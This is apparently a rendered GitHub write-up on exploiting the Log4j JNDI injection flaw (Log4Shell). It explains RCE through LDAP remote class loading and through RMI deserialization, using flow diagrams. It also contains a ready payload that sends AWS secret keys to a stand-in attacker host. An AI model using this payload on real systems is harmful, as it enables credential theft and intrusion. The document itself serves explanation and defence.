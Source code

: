 
## Stealing Secrets

Given that we can access environmental variables via `${env:ENV_VAR}` this opens the door to stealing secrets. For example, the following can be used to steal AWS secret keys.

```
${jndi:ldap://attacker.example.com:1389/${env:AWS_ACCESS_KEY_ID}/${env:AWS_SECRET_ACCESS_KEY}}
```

## Remote Code Execution (JNDI injection)

JNDI injection can be used in order to run arbitrary java code in the scope of the application. This technique involves convincing a java application to pull a class from a remote server
and including it in the running application. This does however require that the `com.sun.jndi.(ldap/rmi).object.trustURLCodebase` flag be set to true, which is not the case by default.

```
Victim                        Attacker
  | <-- 1. ${jndi:ldap://...} -- | 1. Attacker sends payload
  |                              |
  | --- 2. ldap request -------> | 2. Victim makes LDAP request
  |                              |
  | <-- 3. ResourceRef --------- | 3. Attacker LDAP server tells victim to
  |                              |    fetch data elsewhere
  | --- 4. HTTP Request -------> | 4. Victim makes a request to fetch data
  |                              |
  | <-- 5. Class file ---------- | 5. Attack returns a malicious class file
  |                              |    which is included into code
  | 6. RCE Popped                |
```

In the case that `trustURLCodebase` is false, the server will not load the ResourceRef.

## Remote Code Execution (Deserialization)

Deserialization involves using `jndi`'s RMI wrapper to make a dummy call to an attacker controlled server. As the rmi protocol communicates using java serialization it is then possible
to trigger a deserialization vulnerability by returning a malicious serialized object. As with standard deserialization attacks, gadgets must be present in the target's environment in order
to leverage the deserialization. Common libraries such as `hibernate` have adequate gadgets to execute code.

```
Victim                        Attacker
  | <-- 1. ${jndi:rmi://...} --- | 1. Attacker sends payload
  |                              |
  | --- 2. rmi call -----------> | 2. Victim makes RMI call request
  |                              |
  | <-- 3. Serialized Payload -- | 3. Attacker sends a response which 
  |                              |    contains a malicious serialized object
  | 4. RCE Popped                |
```
